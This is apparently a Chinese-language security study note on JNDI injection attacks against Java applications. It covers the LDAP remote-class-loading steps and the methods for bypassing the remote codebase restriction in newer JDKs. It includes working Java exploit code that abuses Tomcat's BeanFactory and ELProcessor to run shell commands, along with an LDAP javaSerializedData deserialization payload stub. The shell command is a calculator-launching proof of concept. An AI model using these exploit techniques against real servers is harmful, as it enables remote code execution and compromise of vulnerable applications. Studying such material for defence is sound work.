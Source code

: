 ## LADP + JNDI 攻击

- 编译 Evil.java  
  > 注意Evil.java文件中不要写package XXX.XXX

- 开启python http.server服务，将编译后class文件发布到文件服务器中

- 开启服务端

- 启动客户端，成功执行恶意代码

> 注：在高版本JDK(8u191)以上攻击默认是无效的，因为限制了从远程加载类，具体配置名为`com.sun.jndi.ldap.object.trustURLCodebase`

> 本地不要保存Evil.java，要不然就会从本地记载Evil，这样高版本下也是可以加载的。

---

补充内容：  

## JNDI攻击高版本JDK绕过方式
#### 1. JNDI + RMI
思路：加载本地的factory class

该类必须实现 javax.naming.spi.ObjectFactory 接口，并且至少存在一个 getObjectInstance() 方法

利用tomcat8中的`org.apache.naming.factory.BeanFactory`
![img.png](img.png)
```java
Registry registry = LocateRegistry.createRegistry(rmi_port);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
// tomcat中的类
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("Exploit", referenceWrapper);
```
#### 2. JNDI + LDAP
利用javaSerializedData属性

如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。这样与反序列化漏洞配合
就可以进行攻击
```java
// value内容为base64编码的payload
e.addAttribute("javaSerializedData",Base64.decode("rO0ABXNyABFqYXZhLn....."));
```

参考文章：[如何绕过高版本JDK的限制进行JNDI注入利用](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)



